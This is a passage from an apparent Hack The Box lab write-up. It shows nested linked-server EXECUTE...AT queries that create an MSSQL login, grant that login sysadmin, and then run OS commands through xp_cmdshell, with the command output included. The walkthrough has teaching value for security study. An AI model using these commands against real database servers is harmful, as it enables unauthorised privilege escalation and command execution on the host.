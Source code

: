 Next, we can create ourselves a user on `COMPATIBILITY\POO_PUBLIC` with `sysadmin` privileges so we don't need to go through linked servers again.

`EXECUTE('EXECUTE(''EXEC master..sp_addlogin ''''booya'''', ''''0wned123!'''''') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_10.png)

And then add it the `sysadmin` privileges:

`EXECUTE('EXECUTE(''EXEC master..sp_addsrvrolemember ''''booya'''', ''''sysadmin'''''') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_11.png)

Now that we have `sysadmin` privileges, we can execute commands using `xp_cmdshell`:

```
PS C:\Users\snowscan> $user = "booya"
PS C:\Users\snowscan> $pass = "0wned123!"
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'whoami'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------
nt service\mssql$poo_public
```

Even though we have `sysadmin` access in the database, we only a limited OS access with `nt service\mssql$poo_public`

We don't have outbound IPv4 connectivity, the General Failure error message probably means there's no IPv4 address on the interface:

```
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'ping 10.14.14.7'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------

Pinging 10.14.14.7 with 32 bytes of data:
General failure.
General failure.
General failure.
General failure.

Ping statistics for 10.14.14.7:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
```
